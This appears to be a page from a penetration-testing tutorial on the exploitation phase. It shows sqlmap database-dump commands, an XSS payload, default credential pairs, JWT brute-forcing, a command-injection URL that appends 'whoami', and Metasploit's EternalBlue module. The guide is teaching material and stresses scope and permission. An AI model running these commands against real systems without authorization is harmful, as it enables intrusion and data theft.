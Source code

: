 ## 🔹 Phase 4 – Exploitation

Exploitation is where recon and enumeration pay off. The goal is to gain unauthorized access, escalate privileges, or retrieve sensitive information — **without causing damage**. A professional pentester balances aggression with control: exploit, prove the point, and stop.

> 🧠 This phase is about using known vulnerabilities or misconfigurations to gain access. Exploits can be found manually or through automated tools. Proof-of-Concept (PoC) is often enough — you don't need to crash or destroy anything.

---

## 🔓 Common Exploitation Targets

### 🔸 SQL Injection (SQLi)

Automated testing with `sqlmap`:

```bash
sqlmap -u "https://target.com/page.php?id=1" --batch --dbs
```

* `--batch`: no prompts, assumes default answers
* `--dbs`: enumerate available databases

More aggressive extraction:

```bash
sqlmap -u "https://target.com/page.php?id=1" --tables -D target_db --dump
```

* Dumps all data from target DB

🧠 Tip: Always test with Burp first to identify parameters before using sqlmap.

### 🔸 Cross-Site Scripting (XSS)

Manual testing:

```html
<script>alert(1)</script>
```

Place in form fields, URLs, or headers.

Automated testing:

```bash
xsstrike -u https://target.com/search?q=test
```

* Detects reflective and stored XSS
* Attempts fuzzing with payloads

### 🔸 Authentication Bypass

Test for:

* Weak credentials: `admin:admin`, `root:toor`, `test:test`
* Logic flaws: login success without session token
* JWT tampering

#### `jwt-tool`:

```bash
jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9... -S secret123
```

* Attempts decoding, brute-forcing, and modifying JWT tokens

### 🔸 Command Injection / RCE

Indicators:

* Parameters like `?cmd=` or `?ping=1.1.1.1`
* Use semicolons, pipes, backticks

```bash
https://target.com/ping?ip=127.0.0.1;whoami
```

🧠 Always URL encode characters in GET requests.

---

## 🧰 Exploitation Tools

### 🔸 Burp Suite

* Intercept and modify requests
* Repeater for PoC replay
* Intruder for brute-force/fuzzing
* Extensions: ActiveScan++, Logger++, Collaborator (for OAST)

### 🔸 Metasploit

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target-ip
run
```

* Useful for known CVEs and post-exploitation modules

### 🔸 Exploit Databases

* [https://www.exploit-db.com](https://www.exploit-db.com)
* Search by software/version from recon phase

---

## 📌 Pro Tips

* Exploit only **what's in scope** — never attack third-party or production systems without permission.
* Use Burp to test before automating.
* Document every finding: include request, payload, response, impact.
* Avoid DoS/overload unless explicitly allowed.

